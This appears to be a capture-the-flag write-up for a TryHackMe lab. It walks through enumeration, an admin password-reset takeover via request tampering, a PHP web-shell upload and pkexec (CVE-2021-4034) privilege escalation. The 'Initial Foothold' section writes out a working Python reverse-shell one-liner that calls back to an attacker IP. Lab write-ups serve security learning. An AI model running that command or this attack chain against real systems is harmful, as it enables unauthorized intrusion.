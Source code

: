 * * *
  ### LAB
  ### PLATFORM: THM
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3451f8f0-cdf3-4707-b8c8-5ce5585cd963)


### ENUMERATION

- Rustscan's result

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cdc8bece-c865-440e-9ed9-96f987bcc450)

- Ffuf's result
 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6338d69a-1020-48ed-9942-49549558e7dd)

- V2 ditectory reveals an admin page that allows users to register 

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/059f5f25-684b-4a4a-b791-481f828383ff)

- Profile.php reveals the admin username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8545b9fe-3838-48f6-90da-b63f54b69ea4)

- The password reset functionality is vulnerable becuase it allows us to reset an account's password without any restrictions e,g sending
a magic link to the email
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2759ec91-fda5-416c-8d96-6b3ec77ef82b)

- Intercept the request with burpsuite and change the username to the admin's name

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/be0a74d8-0fe2-42f7-846f-de43e010888d)

### GETTING SHELL

- The admin account allows the admin to unlock the profile image upload feature,we can abuse that feature to get a shell by uploading a php webshell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/09585a99-2045-4c27-bda2-b53fc889ff9f)

- I was able to upload a php web shell because the site has no file upload restrictions

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2b3b466b-2771-4304-992e-35c7b955167d)

- After viewing the source code of `v2/profile.php` ,I discovered that the site has a special directory for storing uploaded pictures

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/57f2fb70-6694-40c2-8c59-41139d1d8d77)

- We can execute shell commands now

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63f5c7d8-31da-4e80-aef5-255eb8854377)

### INITIAL FOOTHOLD

- Shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9e0cd881-585b-419f-bef9-1e54f28965e6)

### PRIVESC WITH POLKIT AND PKEXEC 0.105.0

- POLKIT has an exploit as stated in `cve-2021-4034`.Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).The exploit works on pkexec ver 0.105

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e6c7dbdc-639d-4f27-bb88-886b98848b05)

- ROOT access

    ![z](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/45f2b139-f5cf-4a7b-bd39-6c46cde6fed9)


